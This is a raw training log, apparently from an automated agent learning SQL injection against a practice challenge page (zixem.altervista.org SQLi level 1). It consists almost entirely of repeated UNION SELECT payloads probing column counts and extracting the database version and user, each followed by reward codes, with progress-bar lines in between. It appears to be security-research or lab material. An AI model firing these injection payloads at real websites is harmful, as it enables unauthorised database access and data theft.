 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 857/1000000 [4:56:45<13057:00:44, 47.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 858/1000000 [4:56:46<9222:05:21, 33.23s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 859/1000000 [4:56:47<6530:41:28, 23.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 860/1000000 [4:56:48<4645:41:33, 16.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union s

  0%|          | 861/1000000 [4:57:21<6014:28:20, 21.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 uni

  0%|          | 862/1000000 [4:57:40<5759:25:12, 20.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 863/1000000 [4:57:41<4114:56:35, 14.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 864/1000000 [4:57:43<3054:57:11, 11.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 865/1000000 [4:57:44<2222:12:10,  8.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respo

  0%|          | 866/1000000 [5:03:40<31224:27:24, 112.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 867/1000000 [5:03:41<21932:18:55, 79.02s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 868/1000000 [5:03:42<15428:28:35, 55.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 869/1000000 [5:03:43<10877:09:23, 39.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 870/1000000 [5:03:44<7697:24:18, 27.73s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 871/1000000 [5:03:45<5468:23:42, 19.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 872/1000000 [5:03:46<3902:53:32, 14.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 873/1000000 [5:03:47<2808:08:20, 10.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 874/1000000 [5:03:48<2039:40:32,  7.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 875/1000000 [5:03:49<1520:36:33,  5.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 876/1000000 [5:03:50<1139:14:18,  4.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 877/1000000 [5:03:51<873:25:30,  3.15s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervis

  0%|          | 878/1000000 [5:03:59<1301:29:36,  4.69s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union sel

  0%|          | 879/1000000 [5:06:13<12094:34:35, 43.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 880/1000000 [5:06:14<8548:26:55, 30.80s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 881/1000000 [5:06:15<6058:41:48, 21.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 882/1000000 [5:06:16<4316:54:05, 15.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 883/1000000 [5:06:17<3096:31:25, 11.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 884/1000000 [5:06:18<2258:26:36,  8.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 885/1000000 [5:06:19<1656:36:15,  5.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 886/1000000 [5:06:20<1240:19:51,  4.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 887/1000000 [5:07:25<6294:24:16, 22.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 888/1000000 [5:07:26<4481:03:53, 16.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 889/1000000 [5:08:11<6898:04:21, 24.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 890/1000000 [5:08:12<4903:07:22, 17.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 891/1000000 [5:08:26<4562:59:04, 16.44s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 892/1000000 [5:08:27<3345:12:34, 12.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,versi

  0%|          | 893/1000000 [5:10:09<10829:21:58, 39.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 894/1000000 [5:10:10<7654:40:38, 27.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server respons

  0%|          | 895/1000000 [5:11:38<12638:57:37, 45.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 896/1000000 [5:11:39<8924:58:18, 32.16s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.

  0%|          | 897/1000000 [5:13:24<15001:15:01, 54.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 898/1000000 [5:13:25<10576:42:46, 38.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Se

  0%|          | 899/1000000 [5:14:37<13462:35:15, 48.51s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem

  0%|          | 900/1000000 [5:14:45<10056:17:37, 36.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 901/1000000 [5:14:46<7130:22:31, 25.69s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 902/1000000 [5:14:48<5153:47:25, 18.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server res

  0%|          | 903/1000000 [5:15:37<7639:20:41, 27.53s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error

  0%|          | 904/1000000 [5:16:22<9162:49:06, 33.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 905/1000000 [5:16:23<6497:26:53, 23.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 906/1000000 [5:16:24<4640:21:03, 16.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 907/1000000 [5:16:27<3426:54:50, 12.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 908/1000000 [5:16:28<2481:47:25,  8.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.alterv

  0%|          | 909/1000000 [5:19:11<15373:18:25, 55.39s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Se

  0%|          | 910/1000000 [5:19:21<11536:18:05, 41.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 911/1000000 [5:19:25<8465:11:37, 30.50s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 912/1000000 [5:19:26<5959:19:22, 21.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 913/1000000 [5:19:27<4245:44:39, 15.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 914/1000000 [5:19:28<3046:44:26, 10.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 915/1000000 [5:19:28<2167:23:56,  7.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 916/1000000 [5:19:30<1679:11:47,  6.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union se

  0%|          | 917/1000000 [5:20:29<6130:11:47, 22.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 918/1000000 [5:20:30<4367:10:22, 15.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 919/1000000 [5:20:31<3138:24:12, 11.31s/it]

